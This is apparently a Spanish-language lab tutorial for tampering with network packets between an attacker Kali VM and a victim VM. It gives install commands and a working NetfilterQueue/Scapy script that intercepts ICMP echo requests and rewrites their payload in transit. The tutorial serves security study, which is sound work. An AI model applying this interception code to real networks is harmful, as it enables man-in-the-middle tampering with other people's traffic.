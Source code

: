 | Máquina        | Sistema operativo | Rol      |
| -------------- | ----------------- | -------- |
| Kali Linux     | Kali              | Atacante |
| Ubuntu/Windows | Cliente víctima   | Víctima  |

🔗 Ambas deben estar conectadas en **la misma red virtual** (por ejemplo: “Red interna” o “Adaptador puente” en VirtualBox o VMware).

---

### 🛠️ Instalación de herramientas necesarias

#### En Kali Linux (máquina atacante):

```bash
sudo apt update
sudo apt install python3 python3-pip iptables -y
pip3 install scapy netfilterqueue
```

---

### ⚙️ Preparar el script: manipular paquetes ICMP en tiempo real

Vamos a interceptar paquetes ICMP (por ejemplo, `ping`) y **modificar su contenido** antes de que lleguen a su destino.

#### 📁 Crea un archivo llamado `icmp_modifier.py`

```python
from netfilterqueue import NetfilterQueue
from scapy.all import *

def modify_icmp(pkt):
    scapy_pkt = IP(pkt.get_payload())

    if scapy_pkt.haslayer(ICMP):
        if scapy_pkt[ICMP].type == 8:  # Echo Request
            print(f"[+] ICMP Echo Request capturado de {scapy_pkt[IP].src}")

            # Modificar el mensaje dentro del paquete
            if scapy_pkt.haslayer(Raw):
                data = scapy_pkt[Raw].load.decode(errors='ignore')
                new_data = data.replace("ping", "hack")
                scapy_pkt[Raw].load = new_data.encode()

                # Recalcular longitudes y checksums
                del scapy_pkt[IP].len
                del scapy_pkt[IP].chksum
                del scapy_pkt[ICMP].chksum

                pkt.set_payload(bytes(scapy_pkt))

    pkt.accept()

nfqueue = NetfilterQueue()
nfqueue.bind(0, modify_icmp)

try:
    print("[*] Escuchando paquetes ICMP y modificando...")
    nfqueue.run()
except KeyboardInterrupt:
    print("\n[!] Interrumpido por el usuario.")
```
